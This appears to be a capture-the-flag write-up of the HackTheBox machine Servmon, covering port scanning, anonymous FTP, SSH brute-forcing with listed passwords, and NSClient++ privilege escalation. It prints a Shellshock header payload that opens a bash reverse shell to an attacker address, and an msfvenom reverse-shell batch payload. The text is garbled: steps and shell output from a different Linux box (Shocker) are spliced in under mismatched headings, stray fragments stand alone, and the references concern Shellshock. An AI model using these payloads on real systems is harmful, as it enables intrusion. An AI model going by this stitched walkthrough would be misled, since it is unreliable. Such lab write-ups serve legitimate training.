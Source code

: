 # Servmon - hackthebox

![servmon badge](images/servmon/servmonbadge.jpg)

Servmon is a Windows machine rated Easy on HTB.

## Port Scan

`nmap -sC -sV -p- 10.10.10.184`

```
PORT      STATE SERVICE       REASON          VERSION
21/tcp    open  ftp           syn-ack ttl 127 Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_01-18-20  12:05PM       <DIR>          Users
| ftp-syst: 
|_  SYST: Windows_NT
22/tcp    open  ssh           syn-ack ttl 127 OpenSSH for_Windows_7.7 (protocol 2.0)
| ssh-hostkey: 
<SNIP<>>
80/tcp    open  http          syn-ack ttl 127
| fingerprint-strings: 
|   GetRequest, HTTPOptions, RTSPRequest: 
|     HTTP/1.1 200 OK
|     Content-type: text/html
|     Content-Length: 340
|     Connection: close
|     AuthInfo: 
|     <!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
|     <html xmlns="http://www.w3.org/1999/xhtml">
|     <head>
|     <title></title>
|     <script type="text/javascript">
|     window.location.href = "Pages/login.htm";
|     </script>
|     </head>
|     <body>
|     </body>
|     </html>
|   NULL: 
|     HTTP/1.1 408 Request Timeout
|     Content-type: text/html
|     Content-Length: 0
|     Connection: close
|_    AuthInfo:
|_http-favicon: Unknown favicon MD5: 3AEF8B29C4866F96A539730FAB53A88F
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html).
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? syn-ack ttl 127
5040/tcp  open  unknown       syn-ack ttl 127
5666/tcp  open  tcpwrapped    syn-ack ttl 127
6063/tcp  open  tcpwrapped    syn-ack ttl 127
6699/tcp  open  napster?      syn-ack ttl 127
7680/tcp  open  pando-pub?    syn-ack ttl 127
8443/tcp  open  ssl/https-alt syn-ack ttl 127
| fingerprint-strings: 
|   FourOhFourRequest, HTTPOptions, RTSPRequest, SIPOptions: 
|     HTTP/1.1 404
|     Content-Length: 18
|     Document not found
|   GetRequest: 
|     HTTP/1.1 302
|     Content-Length: 0
|     Location: /index.html
|     workers
|_    jobs
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-title: NSClient++
|_Requested resource was /index.html
| ssl-cert: Subject: commonName=localhost
| Issuer: commonName=localhost
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2020-01-14T13:24:20
| Not valid after:  2021-01-13T13:24:20
| MD5:   1d03 0c40 5b7a 0f6d d8c8 78e3 cba7 38b4
| SHA-1: 7083 bd82 b4b0 f9c0 cc9c 5019 2f9f 9291 4694 8334
| -----BEGIN CERTIFICATE-----
<SNIP>
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
<SNIP>
```

There are many ports open. FTP allows anonymous access so let's start with this low-hanging fruit.

## Enumerating FTP

Connect with to FTP with this command.

`ftp 10.10.10.184`

```
Connected to 10.10.10.184.
220 Microsoft FTP Service
Name (10.10.10.184:root): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
01-18-20  12:05PM       <DIR>          Users
226 Transfer complete.
ftp> cd Users
250 CWD command successful.
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
01-18-20  12:06PM       <DIR>          Nadine
01-18-20  12:08PM       <DIR>          Nathan
```

Now, other than getting two usernames, we also know the file path to Nathan's password file. Let's hope it's still there when we get to it.

## Exploiting NVMS Directory Traversal

![bug](images/shocker/dontbugme.jpg)

Now, we have the passwords from Nathan's password file.

## Bruteforcing SSH

Let's consolidate the usernames and passwords we've gathered up to this point.

In `user.txt`:

```
nadine
nathan
```

In `password.txt`:

```
1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5$
```

We can use these information to bruteforce the SSH service with hydra.
case sensitive?

```
Microsoft Windows [Version 10.0.18363.752]
(c) 2019 Microsoft Corporation. All rights reserved.

nadine@SERVMON C:\Users\Nadine>whoami
servmon\nadine
```

Here, you can find the user flag.

## Privilege Escalation Through NSClient++ Vulnerability

First, let's setup a listener for catching our reverse shell.

`nc -nvlp 8888`

Then, send another request for user.sh with the header value modified as:

`() { :;}; /bin/bash -i >& /dev/tcp/10.10.X.X/8888 0>&1`

This will get a bash reverse shell, which is the natural choice here as bash is available. Note that `echo;` is not needed here because we are not interested in the HTML response.

### Getting WebUI Password

```
root@kali:~# nc -nvlp 8888
listening on [any] 8888 ...
connect to [10.10.X.X] from (UNKNOWN) [10.10.10.56] 58462
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$ cd ~
cd ~
shelly@Shocker:/home/shelly$ ls
ls
user.txt
shelly@Shocker:/home/shelly$ cat user.txt
cat user.txt
```
Try to access

### Checking Configuration

[Fantastic but more technical explanation here](https://hypothetical.me/post/reverse-shell-in-bash/)

`/bin/bash -i >& /dev/tcp/10.10.X.X/8888 0>&1`

* `/bin/bash` - getting a new bash session

Show can curl locally

### Exploiting With API

Prepare a batch file payload with msfvenom.

`msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.3 LPORT=8888 -f bat > payload.bat`

## Privilege Escalation

After executing the script, we get a system shell.

```
root@kali:~# nc -nvlp 8888
listening on [any] 8888 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.184] 49694
Microsoft Windows [Version 10.0.18363.752]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Program Files\NSClient++>whoami
whoami
nt authority\system
```

# Ending Thoughts

I got to try out local port forwarding with this box. However, you don't need it if you're exploiting via the API.

**References**

* https://www.netsparker.com/blog/web-security/cve-2014-6271-shellshock-bash-vulnerability-scan/
* https://www.symantec.com/connect/blogs/shellshock-all-you-need-know-about-bash-bug-vulnerability
* https://resources.infosecinstitute.com/bash-bug-cve-2014-6271-critical-vulnerability-scaring-internet/#gref
* https://blog.knapsy.com/blog/2014/10/07/basic-shellshock-exploitation/
* https://github.com/opsxcq/exploit-CVE-2014-6271
